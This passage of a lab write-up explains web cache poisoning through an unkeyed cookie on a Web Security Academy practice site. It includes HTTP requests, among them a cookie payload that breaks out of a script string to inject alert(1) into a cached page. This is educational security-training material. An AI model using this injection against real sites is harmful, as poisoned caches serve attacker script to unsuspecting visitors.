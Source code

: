 This flawed handling of cookies by the cache can also be exploited using web cache poisoning techniques. In practice, however, this vector is relatively rare in comparison to header-based cache poisoning. When cookie-based cache poisoning vulnerabilities exist, they tend to be identified and resolved quickly because legitimate users have accidentally poisoned the cache. 

### PRACTITIONER Lab: Web cache poisoning with an unkeyed cookie
Note: this lab is not described in great details, to understand what's going on here read the description of the `Lab: Web cache poisoning with an unkeyed header`

The main idea is to find a cookie that is not included in the cache key, and the value of that cookie must be reflected in the response on a page that can be cached

A cookie like that can be searched with Param Miner

In the lab the value of cookies aren't included in the cache key. But we know that GET / page is cached and the value of `fehost` Cookie is reflected on that page

When we make a request:
```bash
GET / HTTP/2
Host: labid.web-security-academy.net
Cookie: fehost=VVVV
```

We see the value of `fehost` cookie reflected in the response html:
```bash
       <script>
            data = {"host":"0aa2008d0413718a80350d0a0061004a.web-security-academy.net","path":"/","frontend":"VVVV"}
        </script>
```

We can therefore poison the web cache with the following request:
```bash
GET / HTTP/2
Host: labid.web-security-academy.net
Cookie: fehost="}%3balert(1)%20//
```

And in the response we'll get:
```bash
        <script>
            data = {"host":"labid.web-security-academy.net","path":"/","frontend":""};alert(1) //"}
        </script>
```

Now that response is cached and when other users visit the page, the js code will be executed


### Using multiple headers to exploit web cache poisoning vulnerabilities
Some websites are vulnerable to simple web cache poisoning exploits, as demonstrated above. However, others require more sophisticated attacks and only become vulnerable when an attacker is able to craft a request that manipulates multiple unkeyed inputs.

For example, let's say a website requires secure communication using HTTPS. To enforce this, if a request that uses another protocol is received, the website dynamically generates a redirect to itself that does use HTTPS: 
